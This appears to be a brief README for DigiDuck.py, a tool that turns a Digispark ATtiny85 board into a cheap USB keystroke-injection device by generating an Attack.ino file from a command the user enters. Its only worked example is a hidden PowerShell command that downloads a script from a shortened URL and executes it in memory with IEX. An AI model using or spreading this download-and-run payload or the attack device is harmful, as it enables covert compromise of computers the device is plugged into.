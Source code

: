 # Digispark ATtiny85 as a Cheap "USB Rubber Ducky"

##Usage
    python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!
